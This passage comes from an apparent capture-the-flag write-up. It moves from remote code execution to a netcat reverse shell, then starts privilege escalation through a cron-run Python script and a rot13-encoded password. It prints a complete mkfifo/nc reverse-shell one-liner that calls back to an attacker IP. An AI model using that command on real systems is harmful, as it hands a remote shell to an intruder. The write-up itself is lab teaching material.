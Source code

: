 <figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So there is RCE, we can try to get Reverse shell.

{% code overflow="wrap" %}
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9000 >/tmp/f
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We are `Paradox` user.

### Priv Esc to Szymex user

`/etc/crontab` - there is a job owned by `szymex` running every minute. `/home/szymex/SniffingCat.py` .

INside the Home dir of `szymex` user, there is a note for Paradox user.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Reading through the script we can see it reads something from the file mysupersecretpassword.txt, runs it through a function to encode it, and checks if it matches enc\_pw which should be pureelpbxr. The encoding function uses the number 13 a couple of times, so I’m thinking is it rot13 encoded. I tried pasting it in Google and got this as first hit:

![cooctus-rot13](https://pencer.io/assets/images/2021-04-19-22-17-38.png)

Worth a try, so I found [this](https://cryptii.com/pipes/rot13-decoder) decoder and pasted it in:

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
